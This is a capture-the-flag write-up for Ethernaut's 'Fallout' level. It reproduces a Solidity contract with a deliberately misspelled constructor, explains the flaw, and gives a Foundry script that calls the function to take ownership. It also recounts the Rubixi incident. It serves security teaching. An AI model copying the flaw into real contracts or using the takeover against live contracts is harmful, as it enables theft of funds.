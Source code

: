 # Level 2 - Fallout ⏺

{% embed url="https://ethernaut.openzeppelin.com/level/2" %}

### Level Setup

{% hint style="info" %}
Claim ownership of the contract below to complete this level.

&#x20; Things that might help

* Solidity Remix IDE
{% endhint %}

### Level Contract

{% @github-files/github-code-block url="https://github.com/OpenZeppelin/ethernaut/blob/master/contracts/contracts/levels/Fallout.sol" fullWidth="false" %}

{% code lineNumbers="true" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

contract Fallout {
  
  using SafeMath for uint256;
  mapping (address => uint) allocations;
  address payable public owner;


  /* constructor */
  function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }

  modifier onlyOwner {
	        require(
	            msg.sender == owner,
	            "caller is not the owner"
	        );
	        _;
	    }

  function allocate() public payable {
    allocations[msg.sender] = allocations[msg.sender].add(msg.value);
  }

  function sendAllocation(address payable allocator) public {
    require(allocations[allocator] > 0);
    allocator.transfer(allocations[allocator]);
  }

  function collectAllocations() public onlyOwner {
    msg.sender.transfer(address(this).balance);
  }

  function allocatorBalance(address allocator) public view returns (uint) {
    return allocations[allocator];
  }
}
```
{% endcode %}

### Exploit

The contract uses an old method of defining the constructor by (attempting) to set it as the same name as the contract. In this instance, they made a mistake and there's a typo on the "constructor" which means it's different from the contract name, and therefore wasn't run on contract creation and can be run by anyone.

1. Call the function either using an interface or a `.call` with the function signature.

```bash
make exploit-level-2
<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```

{% @github-files/github-code-block url="https://github.com/EridianAlpha/ethernaut-foundry/blob/main/script/Level2.s.sol" fullWidth="false" %}

{% code lineNumbers="true" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.18;

import {Script, console} from "forge-std/Script.sol";
import {GetInstanceAddress} from "script/HelperFunctions.s.sol";

interface Fallout {
    function Fal1out() external payable;
}

contract Exploit is Script, GetInstanceAddress {
    function run() public {
        address targetContractAddress = getInstanceAddress();
        Fallout targetContract = Fallout(targetContractAddress);

        vm.startBroadcast();
        targetContract.Fal1out{value: 0}();
        vm.stopBroadcast();
    }
}

// contract Exploit is Script, GetInstanceAddress {
//     function run() public {
//         address targetContractAddress = getInstanceAddress();

//         // Function signature
//         bytes memory payload = abi.encodeWithSignature("Fal1out()");

//         vm.startBroadcast();
//         (bool success, ) = targetContractAddress.call{value: 0}(payload);
//         require(success, "Transaction failed");
//         vm.stopBroadcast();
//     }
// }
```
{% endcode %}

2. Submit instance... 🥳

### Completion Message

{% hint style="info" %}
That was silly wasn't it? Real world contracts must be much more secure than this and so must it be much harder to hack them right?

Well... Not quite.

The story of Rubixi is a very well known case in the Ethereum ecosystem. The company changed its name from 'Dynamic Pyramid' to 'Rubixi' but somehow they didn't rename the constructor method of its contract:

```
contract Rubixi {
  address private owner;
  function DynamicPyramid() { owner = msg.sender; }
  function collectAllFees() { owner.transfer(this.balance) }
  ...
```

This allowed the attacker to call the old constructor and claim ownership of the contract, and steal some funds. Yep. Big mistakes can be made in smartcontractland.
{% endhint %}

### Notes

* This exploit occurred because before Solidity `v0.5.0` it was not mandatory to name the constructor `constructor`. This was updated with a [breaking change in the `v0.5.0` release](https://docs.soliditylang.org/en/latest/050-breaking-changes.html#constructors).
* Even though this contract uses `v0.6.0` this mistake still happened.
